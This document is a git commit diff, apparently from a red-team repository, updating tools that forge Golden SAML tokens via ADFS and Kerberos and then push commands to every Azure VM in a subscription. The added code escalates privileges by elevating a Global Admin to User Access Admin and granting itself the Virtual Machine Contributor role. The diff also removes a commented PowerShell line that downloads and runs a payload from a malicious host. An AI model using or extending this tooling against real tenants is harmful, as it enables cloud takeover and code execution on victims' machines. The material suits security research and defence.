

Fixed code logic for shocknawe, WhiskeySAML, and TicketsPlease.  Updated all readme's and screenshots

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/whiskeysaml/templates/index.html b/whiskeysaml/templates/index.html
@@ -129,10 +129,19 @@
             <input type="password" id="domain_password" name="domain_password" class="form-control" required>
           </div>
 
+          <div class="form-floating" style="margin-bottom: 15px;">
+            <label for="service_account" class="form-label">
+              ADFS Service Account Or ADFS Local Admin: <span style="color: red;">*</span>
+            </label><br>
+            <small id="service_account_help" class="form-text text-muted">
+              Name of the ADFS service account or Local Admin
+            </small>
+            <input type="text" id="service_account" name="service_account" class="form-control" required>
+          </div>
+
           <button class="w-100 btn btn-lg btn-primary" type="submit">Submit</button>
           <p class="mt-5 mb-3 text-muted" style="margin-top: 10px;">Secureworks &copy; 2021</p>
         </div>
-
     </form>
   </main>
 </body>

diff --git a/shocknawe/shocknawe.py b/shocknawe/shocknawe.py
@@ -15,6 +15,7 @@
 # limitations under the License.
 
 import sys
+import jwt
 import signal
 import random
 import asyncio
@@ -23,6 +24,7 @@ import argparse
 import requests
 import concurrent.futures
 import concurrent.futures.thread
+from uuid import uuid4
 from time import sleep
 from typing import Dict
 from functools import partial
@@ -85,22 +87,16 @@ def get_args():
         required=True,
     )
     p.add_argument(
+        "--adfs-account",
+        type=str,
+        help="ADFS Service Account Name or Local Admin Account Name of the ADFS Server",
+	required=True,
+    )
+    p.add_argument(
         "--rate",
         type=int,
         default=5,
         help="Number of threads to run concurrently. Default: 5",
-    )
-    p.add_argument(
-        "--malicious-host",
-        type=str,
-        help="IP address/domain name of the malicious server hosting payloads",
-        required=True,
-    )
-    p.add_argument(
-        "--payload-name",
-        type=str,
-        help="Name of remote payload file",
-        required=True,
     )
     p.add_argument(
         "--command",
@@ -122,8 +118,16 @@ class ShockNAwe:
         self.loop = loop
         self.access_token = access_token
         self.executor = concurrent.futures.ThreadPoolExecutor(max_workers=rate)
-        # On init, get subscription ID and VMS
+        # On init:
+        # Elevater user to User Access Admin
+        self._elevate_to_user_access_admin()
+        # Get Subscription ID
         self._get_subscription_id()
+        # Get Role ID for Virtual Machine Contributor
+        self._get_role_assignment_id()
+        # Grant Virtual Machine Contributor role to user
+        self._grant_virtual_machine_contributor_role()
+        # Enumerate VMs in Subscription
         self._get_vms()
 
     def shutdown(self, key: bool = False):
@@ -140,6 +144,15 @@ class ShockNAwe:
         atexit.unregister(concurrent.futures.thread._python_exit)
         self.executor.shutdown = lambda wait: None
 
+    def _elevate_to_user_access_admin(self) -> str:
+        """Elevate Global Admin to User Access Admin"""
+        logging.info("[ * ] Elevating Global Admin to User Access Admin")
+
+        url = "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2015-07-01"
+        headers = {"Authorization": f"Bearer {self.access_token}"}
+        data = requests.post(url, headers=headers)
+        logging.info(f"\tUser Elevated!")
+
     def _get_subscription_id(self) -> str:
         """Retrieve an Azure subscription ID"""
         logging.info("[ * ] Extracting Azure subscription ID")
@@ -153,6 +166,34 @@ class ShockNAwe:
 
         logging.info(f"\tAzure Subscription ID: {subscription_id}")
         self.subscription_id = subscription_id
+
+    def _get_role_assignment_id(self) -> str:
+        """Get Role Assigmnet ID of Virtual Contributor Role"""
+        logging.info("[ * ] Obtaining Assignment Role ID for Virtual Machine Contributor Role")
+
+        url = f"https://management.azure.com/subscriptions/{self.subscription_id}/providers/Microsoft.Authorization/roleDefinitions?$filter=roleName eq 'Virtual Machine Contributor'&api-version=2018-01-01-preview"
+        headers = {"Authorization":f"Bearer {self.access_token}"}
+        data = requests.get(url, headers=headers).json()
+        self.role_id = data['value'][0]['name']
+        logging.info(f"\tVirtual Machine Contributor Role ID: {self.role_id}")
+
+    def _grant_virtual_machine_contributor_role(self) -> str:
+        logging.info("[ * ] Granting Ourselves Virtual Machine Contributor Permissions")
+
+        url = f"https://management.azure.com/subscriptions/{self.subscription_id}/providers/Microsoft.Authorization/roleAssignments/{str(uuid4())}?api-version=2018-09-01-preview"
+        headers = {"Authorization": f"Bearer {self.access_token}", "Content-Type": "application/json"}
+        decoded_token = jwt.decode(self.access_token, options = {"verify_signature":False})
+        user_id = decoded_token['oid']
+        body = {
+          "properties": {
+            "roleDefinitionId": f"/subscriptions/{self.subscription_id}/providers/Microsoft.Authorization/roleDefinitions/{self.role_id}",
+            "principalId": f"{user_id}",
+            "canDelegate": "false"
+          }
+        }
+        response = requests.put(url, headers=headers, json=body).json()
+
+        logging.info(f"\tResponse: {response}")
 
     def _get_vms(self) -> Dict:
         """Enumerate VMs in an Azure subscription"""
@@ -237,6 +278,11 @@ class ShockNAwe:
                 == "The operation requires the VM to be running (or set to run)."
             ):
                 logging.warning(f"[ ! ] {server} - Status: Server is not running")
+                return None
+            elif (
+                data['error']['message']
+            ):
+                logging.warning(f"[ ! ] {server} - {data['error']['message']}")
                 return None
         except:
             # Perform status checks on the payload deployment
@@ -324,8 +370,7 @@ if __name__ == "__main__":
     (krb_ticket, cipher, sessionKey) = create_ticket(
         domain=args.domain,
         host=args.adfs_host,
-        user=args.domain_username,
-        user_password=args.domain_password,
+        user=args.adfs_account,
         domain_username=args.domain_username,
         domain_password=args.domain_password,
         dc_ip=args.dc_ip,
@@ -376,15 +421,7 @@ if __name__ == "__main__":
         rate=args.rate,
     )
 
-    mal_host = args.malicious_host
-    payload_name = args.payload_name
     command = args.command.split(",")
-
-    # Example Command
-    # command = [f"IEX((New-Object Net.WebClient).DownloadString('http://{mal_host}/{payload_name}'))"]
-
-    # Cleanup Example
-    # command = ["del C:\Windows\Tasks\MpCmdRun3.exe"]
 
     logging.info(
         f"[ * ] Running command '{' '.join(command)}' on all VM's in the Azure subcription"

diff --git a/whiskeysaml/whiskeysaml.py b/whiskeysaml/whiskeysaml.py
@@ -16,7 +16,9 @@
 
 import logging
 import argparse
+import base64
 from flask import Flask, request, render_template  # type: ignore
+from ticketsplease.modules.dcsync import DCSYNC
 from ticketsplease.modules.ticket import create_ticket  # type: ignore
 from ticketsplease.modules.adfs import get_configuration  # type: ignore
 from ticketsplease.modules.saml import generate_golden_saml  # type: ignore
@@ -35,8 +37,9 @@ def attack():
     dc_ip = request.form.get("dc_ip", None)
     domain_username = request.form.get("domain_username", None)
     domain_password = request.form.get("domain_password", None)
+    service_account = request.form.get("service_account", None)
 
-    # First, create a Kerberos ticket
+    # Next, create a Kerberos ticket
     # We are generating a Kerberos ticket for the domain
     # user to authenticate and pull down the ADFS config
     # settings. Since we have the domain username and
@@ -46,8 +49,7 @@ def attack():
     (krb_ticket, cipher, sessionKey) = create_ticket(
         domain=domain,
         host=adfs_host,
-        user=domain_username,
-        user_password=domain_password,
+        user=service_account,
         domain_username=domain_username,
         domain_password=domain_password,
         dc_ip=dc_ip,
@@ -60,7 +62,7 @@ def attack():
         adfs_host=adfs_host,
         ticket=krb_ticket,
         sessionKey=sessionKey,
-        cipher=cipher,
+        cipher=None,
     )
 
     # Finally, use the ADFS config to generate the SAML token

diff --git a/ticketsplease/ticketsplease/core/__init__.py b/ticketsplease/ticketsplease/core/__init__.py
@@ -1,0 +1,15 @@
+# Copyright 2021 Secureworks
+#
+# Licensed under the Apache License, Version 2.0 (the "License");
+# you may not use this file except in compliance with the License.
+# You may obtain a copy of the License at
+#
+#     http://www.apache.org/licenses/LICENSE-2.0
+#
+# Unless required by applicable law or agreed to in writing, software
+# distributed under the License is distributed on an "AS IS" BASIS,
+# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
+# See the License for the specific language governing permissions and
+# limitations under the License.
+
+from ticketsplease.core.utils import gen_nt_hash

diff --git a/ticketsplease/ticketsplease/modules/ticket/__init__.py b/ticketsplease/ticketsplease/modules/ticket/__init__.py
@@ -20,7 +20,7 @@ import base64
 import asyncio
 from typing import Tuple
 from pyasn1.codec.der import encoder  # type: ignore
-from ticketsplease.core.utils import gen_nt_hash
+from ticketsplease.core import gen_nt_hash
 from ticketsplease.modules.ldap import LDAP
 from ticketsplease.modules.dcsync import DCSYNC
 

diff --git a/ticketsplease/ticketsplease/modules/dcsync.py b/ticketsplease/ticketsplease/modules/dcsync.py
@@ -16,7 +16,7 @@ import logging
 import asyncio
 from typing import Tuple
 from pypykatz.smb.dcsync import dcsync  # type: ignore
-from ticketsplease.core.utils import gen_nt_hash
+from ticketsplease.core import gen_nt_hash
 
 
 class DCSYNC:

diff --git a/shocknawe/README.md b/shocknawe/README.md
@@ -11,39 +11,47 @@ This is a proof of concept tool to generate a Golden SAML token that will be use
 ```
 usage: shocknawe.py [-h] --target-user TARGET_USER --domain DOMAIN --adfs-host ADFS_HOST
                     --dc-ip DC_IP --domain-username DOMAIN_USERNAME
-                    --domain-password DOMAIN_PASSWORD [--rate RATE] [--debug]
+                    --domain-password DOMAIN_PASSWORD
+                    --adfs-account ADFS_ACCOUNT [--rate RATE] --command COMMAND
+                    [--debug]
 
 Shock N' Awe: Deploy a Payload to an Azure Subscription | v0.1.0
 
 optional arguments:
   -h, --help            show this help message and exit
 
+
   --target-user TARGET_USER
                         Target Cloud User username
 
+
   --domain DOMAIN       Target Domain
+
 
   --adfs-host ADFS_HOST
                         Target ADFS Server
 
+
   --dc-ip DC_IP         Target Domain Controller
 
+
   --domain-username DOMAIN_USERNAME
-                        Domain Username for DCSync
+                        Domain Username for DCSync/LDAP operations
+
 
   --domain-password DOMAIN_PASSWORD
-                        Password for Domain Username
+                        Password for Domain Username for DCSync/LDAP operations
 
-  --rate RATE           Number of threads to run concurrently.
-                        Default: 5
 
-  --malicious-host MALICIOUS_HOST
-                        IP address/domain name of the malicious server hosting payloads
+  --adfs-account ADFS_ACCOUNT
+                        ADFS Service Account Name or Local Admin Account Name of the ADFS Server
 
-  --payload-name PAYLOAD_NAME
-                        Name of remote payload file
+
+  --rate RATE           Number of threads to run concurrently. Default: 5
+
 
   --command COMMAND     Command to be run on the victim system(s)
+
 
   --debug               Enable debugging
 ```
